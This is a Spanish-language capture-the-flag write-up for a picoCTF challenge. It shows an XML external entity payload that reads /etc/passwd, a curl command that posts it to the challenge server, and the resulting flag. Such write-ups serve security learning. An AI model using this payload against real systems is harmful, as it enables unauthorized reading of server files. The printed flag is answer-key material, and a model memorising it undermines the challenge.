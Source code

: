 
**Reto:**
-Utilizar un xxe para entrar a una carpeta y obtener la bandera.

**Descripción:**
-The web project was rushed and no security assessment was done. Can you read the /etc/passwd 
  file?[Web Portal](http://saturn.picoctf.net:55708/)

**Solución:**
Aprovechar una deficiencia en el método POST para ingresar un xml que regresa la carpeta '/etc/passwd' y encontrar la bandera.
-Abrir la página.
-Presiona las teclas "Ctrl+Shift+i" para abrir las herramientas de desarrollador.
-Revisar los métodos de request para verificar que hay un xml.
-Crear un archivo llamado 'payload.xml' y escribir el siguiente texto.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<data>
  <ID>
    &xxe;
  </ID>
</data>
```
-Guardar el archivo y ejecutar el siguiente comando.
```
curl -X POST http://saturn.picoctf.net:65146/data  \
     -H "Content-Type: application/xml" \
     --data-binary @payload.xml |
     grep 'pico'
```
-Una vez ejecutado este comando, la bandera aparecerá en la terminal.

El resultado es: **picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}**.

**Notas adicionales:**
-Es posible editar el request con BurpSuite.

**Referencias:**
http://saturn.picoctf.net:55708/
https://blog.hackmetrix.com/xxe-xml-external-entity/